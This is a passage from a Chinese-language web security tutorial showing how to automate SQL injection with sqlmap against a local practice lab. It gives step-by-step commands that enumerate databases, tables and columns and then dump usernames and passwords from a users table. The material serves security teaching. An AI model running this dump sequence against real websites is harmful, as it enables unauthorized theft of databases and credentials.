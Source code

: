 ### 自动化利用漏洞

手工注入是个体力活，效率很慢，如果能自动化地利用漏洞，就可以解放双手，省下不少时间。因此，通常我们不会使用手工注入的方式。

下面我就来介绍如何利用 sqlmap 实现 SQL 注入漏洞的自动化利用。

#### 使用 sqlmap 拖库

当前在 SQL 注入漏洞利用工具中，sqlmap 绝对是最常用的，前文也多次提到它，这里我们就尝试使用 sqlmap 实现拖库。

借助 sqlmap 我们可以通过简单的参数自动完成漏洞的利用，既不用记过多的 SQL 语句，也会更加高效。下面我会介绍一些常用的命令参数，通过这些参数，我们能实现注入自动化。具体的流程和手工注入一样，这里就不再赘述了。

**（1）使用 --dbs 参数获取数据库名称**（注意：这里需要 sudo，否则无法访问 docker 容器中的网站），示例命令如下：

```shell
./sqlmap.py -u "http://localhost/Less-2/?id=1" --dbs
```

![Drawing 11.png](https://s0.lgstatic.com/i/image2/M01/04/8C/CgpVE1_y7zKAPDYwAAHpwAOclsQ168.png)  
图 12：使用 --dbs 参数获取数据库名称

输出的对应 payload 也是学习各种注入技巧的参考资料，对于渗透测试者、漏洞扫描器、WAF 开发者需要研究的重要资源，有些扫描器干脆直接用 sqlmap，或者把它的所有 payload 扣出来使用。

**（2）使用 --current-db 参数获取当前数据库**，示例命令如下：

```shell
./sqlmap.py -u "http://localhost/Less-2/?id=1" --current-db
```

![Drawing 12.png](https://s0.lgstatic.com/i/image2/M01/04/8C/CgpVE1_y7zqAXr4gAABQGh6pVVo584.png)  
图 13：使用 --current-db 参数获取当前数据库

**（3）使用 --tables 参数枚举表名**，示例命令如下 ：

```shell
./sqlmap.py -u "http://localhost/Less-2/?id=1" --tables -D 'security'
```

![Drawing 13.png](https://s0.lgstatic.com/i/image2/M01/04/8C/CgpVE1_y70GAQ0C0AACYCKSvjig335.png)  
图 14：使用 --tables 参数枚举表名

**（4）使用 --columns 参数枚举字段名**，示例命令如下：

```shell
./sqlmap.py -u "http://localhost/Less-2/?id=1" --columns -T "users" -D "security"
```

![Drawing 14.png](https://s0.lgstatic.com/i/image2/M01/04/8B/Cip5yF_y70mAVarDAAB9o-Ikd5A077.png)  
图 15：使用 --columns 参数枚举字段名

**（5）使用 --dump 参数批量获取字段值**，示例命令如下：

```shell
./sqlmap.py -u "http://localhost/Less-2/?id=1" --dump -C "id,password,username" -T "users" -D "security"
```
